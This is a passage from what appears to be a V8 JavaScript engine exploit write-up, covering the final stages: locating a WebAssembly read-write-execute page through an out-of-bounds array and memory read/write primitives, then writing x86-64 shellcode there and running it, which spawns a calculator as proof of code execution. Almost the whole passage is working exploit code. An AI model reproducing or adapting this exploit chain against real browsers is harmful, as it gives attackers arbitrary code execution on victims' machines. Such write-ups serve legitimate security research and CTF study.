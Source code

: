 ##### 3、find rwx

```
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var wasm_function = wasmInstance.exports.main;


var float_obj_idx = 0;
for(let i=0; i < 0x100; i++)
{
	if(f2i(oobArray[i]) == 0x430f9534b3e01560){
		float_obj_idx = i + 1;
		console.log("[+] find wasm_function obj : 0x" + hex(f2i(oobArray[float_obj_idx])));
		break;
	}
}
var wasm_function_addr = f2i(oobArray[float_obj_idx]) - 0x1;

var wasm_shared_info = dataview_read64(wasm_function_addr + 0x20);
console.log("[+] find wasm_shared_info : 0x" + hex(wasm_shared_info));

var wasm_code = dataview_read64(wasm_shared_info - 0x1 + 0x8);
console.log("[+] find wasm_code : 0x" + hex(wasm_code));

var wasm_rwx = wasm_code - 0xc1 + 0x140; 
console.log("[+] find wasm_rwx : 0x" + hex(wasm_rwx));
```


##### 4、getshell
```
var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

dataview_write(wasm_rwx, shellcode);

wasm_function();
```